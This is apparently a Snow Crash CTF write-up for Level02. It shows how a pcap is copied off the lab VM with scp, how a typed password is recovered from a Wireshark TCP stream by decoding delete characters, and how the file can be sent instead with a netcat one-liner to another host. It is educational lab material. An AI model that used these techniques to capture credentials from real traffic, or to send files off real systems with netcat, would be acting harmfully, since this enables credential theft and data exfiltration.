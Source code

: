 # Level02
Surprise! Our home directory is not empty this time.

![image](https://github.com/user-attachments/assets/e90f08cc-e8c6-43d2-a211-426c455d7998)

![image](https://github.com/user-attachments/assets/134c1920-cd17-48c7-8b12-ca8bad5826ee)

So, what is a **pcap** file and how do we make sense of it? 

PCAP files are a common format for storing packet captures. A PCAP file includes an exact copy of every byte of every packet as seen on the network. [See for more information](https://www.endace.com/learn/what-is-a-pcap-file).
There are various open-source tools we can use to read and write PCAP files including tcpdump, libPCAP, WinPCAP, NPCAP, Zeek, Snort, Suricata, Wireshark. **Wireshark** is among the recommended tools for this project and it is preinstalled on my machine so we'll go with that. (Edit: It was actually cloudshark that was recommended for this project but it is too late now and wireshark is more convenient)

I said my machine though, not the host machine. 

![image](https://github.com/user-attachments/assets/e46661ec-337c-4ad2-bfd4-95d0e2d0b172)

When using tools like john I was easily able to copy-paste text between machines but I need to actually transfer a file now. Did you know that there is a whole course for that on [HTB Academy](https://academy.hackthebox.com/course/preview/file-transfers)?
We probably won't need to go thorough all that though. We just need to learn how to use the **SCP** command as suggested by the project's subject.pdf.

`man scp`:

```console
scp — OpenSSH secure file copy

scp copies files between hosts on a network.

       scp uses the SFTP protocol  over  a  ssh(1)  connection  for  data
       transfer,  and  uses the same authentication and provides the same
       security as a login session.
```

**Syntax:**
`scp user@remotehost:/home/user/file_name `

`$ scp -P 4242 level02@192.168.56.101:~/level02.pcap .`:

![image](https://github.com/user-attachments/assets/acd01ffd-d4e1-4ebf-a4b6-d80da9526c97)

(See [below](#bug), if you are having issues with this command)

Now that I have the necessary file in my current directory I can run

`$ sudo wireshark level02.pcap` (or do `$ chmod +r level02.pcap` beforehand and ditch sudo)

![image](https://github.com/user-attachments/assets/ba0cc406-d451-48ee-950a-3514e07a8308)

Going one by one I see the word Password on line 43(why not 42?) but am unable to decipher much else. Let's go to Analyze → [Follow](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowStreamSection.html) → TCP Stream window.

This will display stream content in the same sequence as it appeared on the network. Traffic from the **client to the server** will be colored **red**, while traffic from the **server to the client** will be colored **blue**.

**Non-printable** characters are replaced by **dots**.

![image](https://github.com/user-attachments/assets/ba82eb31-4bb9-4ad1-bd51-b5ddd80abd1c)

Alright, this looks promising `Password: ft_wandr...NDRel.L0L` 

![image](https://github.com/user-attachments/assets/9b94a91d-1848-4f86-884e-2a3bbf49f302)

Uh...oh right, remember when I said non-printable characters are replaced by dots? Let's take a closer look at what all those dots are meant to be

![image](https://github.com/user-attachments/assets/95510868-d994-47d6-b034-c1c236b97600)

**0D** is the **carriage return** which shows the point client was done entering his password.
**7F** is the **Delete** character. Client must have made some mistakes while entering the password or maybe it was an attempt to confuse anyone else who might be listening in.

`$ man ascii`

![image](https://github.com/user-attachments/assets/d8d7daf2-1354-4453-96f6-705d4a71a553)

In any case `ft_wandr...NDRel.L0L` becomes `ft_waNDReL0L`

Let's try it

![image](https://github.com/user-attachments/assets/09bf0234-51a0-40c2-b9c3-691117436e01)

![image](https://github.com/user-attachments/assets/9a7f45ae-fc3e-482d-a443-242461a4211d)

Finally!

<h2 id="bug">Blue Screen of Death </h2>

If running `scp` causes your computer to crash like me, it might be because of the VM's network settings.

The snow-crash machine is using Host-Only Adapter as we discussed before.

![image](https://github.com/user-attachments/assets/b87a6ad3-b8cd-45dd-92a0-f9032396ce87)

However the Kali machine I am using was on NAT

![image](https://github.com/user-attachments/assets/ef7629e8-e591-490d-bcab-d3cbc0dfd8f5)

When I changed it to **Host-only Adapter** the issue was resolved.

Hopefully those who are on Mac are having easier time here and not dealing with weird VirtualBox bugs.

### Alternatively,

You can also use `netcat` to transfer files like so:

First, we start listening on a port of our choice: `nc -l -p 4444 > level02.pcap` and we will be redirecting anything that comes through that port to a file we created. (It doesn't have to be named leve02)

![image](https://github.com/user-attachments/assets/7edb672c-d09b-4c37-84e0-afb69061f4ff)

Then we send the file `level02@SnowCrash:~$  nc -w 3 92.168.56.102 4444 < ./level02.pcap`

![image](https://github.com/user-attachments/assets/d0d21ede-e645-422a-8b36-57e0eedfea24)

(if you don't know your ip you can just run `$ ifconfig`)

![image](https://github.com/user-attachments/assets/36567e8d-1783-4401-8352-facb571c13aa)


Now let's check our home directory.

![image](https://github.com/user-attachments/assets/b6d22e80-f4e2-4f12-a5a2-b3a5320ed581)

Ta-da!
